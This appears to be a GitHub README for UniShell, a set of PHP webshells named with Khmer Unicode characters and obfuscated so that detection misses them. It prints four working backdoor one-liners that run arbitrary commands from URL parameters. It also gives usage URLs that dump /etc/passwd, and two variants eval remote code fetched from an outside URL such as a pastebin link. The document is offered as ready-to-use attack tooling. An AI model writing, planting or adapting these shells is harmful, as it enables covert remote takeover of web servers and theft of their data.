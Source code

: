 # UniShell
Unishell is a family of php webshells that based on nano shell (https://github.com/s0md3v/nano) which are using khmer unicode characters (ក, ខ, គ) and combinded with YAK Php Obfuscator to protect the code to be undetectable and silently.

### None-Obfuscate
1. Soriya
```php
<?php $ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); ?>
```
**Note:** For the options `ល` is the password `ធិ៤០៤` which mean you can change the string with your own password.

### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command`

**For example**, we want to show the /etc/passwd in the system so we use options us below:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=cat /etc/passwd`

### Screenshot-1
![handler](https://i.imgur.com/YS1JMHE.png)

2. Kolab
```php
<?$ា=$_GET;if($ា[ត]!=null)$ា[ល]==ធិ៤០៤&$ា[ម]($ា[ប]); eval('?>'.file_get_contents($ា[ដ]));?>
```
### Option
`ត` for any String; `ល` for Password; `ម` for Function; `ប` for Command; `ដ` for Url;

### Usage
`http/s://testing.com/unishell.php?ត=any&ល=password&ម=function&ប=command&ដ=url`

***For example***, we want to use the PHP Web Shell from another source in the target system, so it will be:

`http/s://testing.com/unishell.php?ត=true&ល=ធិ៤០៤&ម=passthru&ប=uname -a&ដ=https://pastebin.com/raw/JfLvh0MG`

### Screenshot-2

![handler](https://imgur.com/WCfChGe.png)

### Screenshot-3

![handler](https://imgur.com/HSb9rbd.png)

### Obfuscated
In this code below i used yak to obfuscated.

1. Raksmey-Soriya
```php
<?php goto JFDwF; NnbkH: $gOzsO[ល] == ធិ៤០៤ & $gOzsO[ម]($gOzsO[ប]); goto ymB7H; B3hLL: if (!($gOzsO[ត] != null)) { goto y8I95; } goto NnbkH; JFDwF: $gOzsO = $_GET; goto B3hLL; ymB7H: y8I95: ?>
```
2. Bonla-Kolab
```php
<?php goto N6Ag4; KMKUH: $I9NO2[ល] == ធិ៤០៤ & $I9NO2[ម]($I9NO2[ប]); goto cuHHG; N6Ag4: $I9NO2 = $_GET; goto clZU6; clZU6: if (!($I9NO2[ត] != null)) { goto P0yeE; } goto KMKUH; cuHHG: P0yeE: goto hYsr_; hYsr_: eval("\x3f\x3e" . file_get_contents($I9NO2[ដ])); ?>
```
### License
If you want to use or modify it, just give me a credit or some donation. xD

